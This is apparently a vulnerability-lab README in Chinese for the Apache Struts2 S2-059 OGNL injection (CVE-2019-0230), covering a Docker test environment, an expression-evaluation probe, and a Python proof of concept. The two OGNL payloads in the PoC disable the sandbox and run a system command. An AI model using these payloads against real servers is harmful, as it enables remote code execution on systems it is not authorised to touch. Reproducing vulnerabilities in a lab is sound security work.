# Struts2 S2-059 远程代码执行漏洞(CVE-2019-0230)

Apache Struts框架, 会对某些特定的标签的属性值，比如id属性进行二次解析，所以攻击者可以传递将在呈现标签属性时再次解析的OGNL表达式，造成OGNL表达式注入。从而可能造成远程执行代码。

影响版本: Struts 2.0.0 - Struts 2.5.20

参考链接：

- https://cwiki.apache.org/confluence/display/WW/S2-059
- https://securitylab.github.com/research/ognl-apache-struts-exploit-CVE-2018-11776

## 漏洞环境

启动 Struts 2.5.16环境:

```
docker-compose up -d
```

启动环境之后访问`http://your-ip:8080/?id=1` 就可以看到测试界面

## 漏洞复现

访问 `http://your-ip:8080/?id=%25%7B233*233%7D`，可以发现233*233的结果被解析到了id属性中：

![1.png](1.png)

《[OGNL Apache Struts exploit: Weaponizing a sandbox bypass (CVE-2018-11776)](https://securitylab.github.com/research/ognl-apache-struts-exploit-CVE-2018-11776)》给出了绕过struts2.5.16版本的沙盒的poc，利用这个poc可以达到执行系统命令。

通过如下Python脚本复现漏洞：

```python
import requests

url = "http://127.0.0.1:8080"
data1 = {
    "id": "%{(#context=#attr['struts.valueStack'].context).(#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.setExcludedClasses('')).(#ognlUtil.setExcludedPackageNames(''))}"
}
data2 = {
    "id": "%{(#context=#attr['struts.valueStack'].context).(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).(@java.lang.Runtime@getRuntime().exec('touch /tmp/success'))}"
}
res1 = requests.post(url, data=data1)
# print(res1.text)
res2 = requests.post(url, data=data2)
# print(res2.text)
```

执行poc之后，进入容器发现`touch /tmp/success`已成功执行。 

![2.png](2.png)
